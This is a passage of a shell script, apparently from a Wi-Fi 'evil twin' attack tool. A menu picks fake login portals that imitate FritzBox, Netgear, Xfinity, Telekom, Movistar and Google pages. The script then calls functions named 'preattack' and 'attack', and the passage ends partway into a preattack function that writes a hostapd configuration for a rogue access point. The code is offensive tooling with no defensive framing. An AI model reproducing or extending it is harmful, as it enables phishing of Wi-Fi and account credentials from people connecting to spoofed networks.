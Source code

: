                 elif [ "$webconf" = "37" ]; then
                                FRITZBOX_DE
                                break

                    elif [ "$webconf" = "38" ]; then
                                FRITZBOX_ENG
                                break

                        elif [ "$webconf" = "39" ]; then
                                GENEXIS_DE
                                break

                        elif [ "$webconf" = "40" ]; then
                                Login-Netgear
                                break

                        elif [ "$webconf" = "41" ]; then
                                Login-Xfinity
                                break

                        elif [ "$webconf" = "42" ]; then
                                Telekom
                                break

                        elif [ "$webconf" = "43" ]; then
                                google
                                break

      elif [ "$webconf" = "44" ]; then
        MOVISTAR_ES
        break

                        elif [ "$webconf" = "45" ]; then
                                conditional_clear
                                webinterface
                                break
      fi

        done
fi
        preattack
        attack
}

# Create different settings required for the script
function preattack {

        # Config HostAPD
        echo "interface=$WIFI
driver=nl80211
ssid=$Host_SSID
channel=$Host_CHAN" > $DUMP_PATH/hostapd.conf
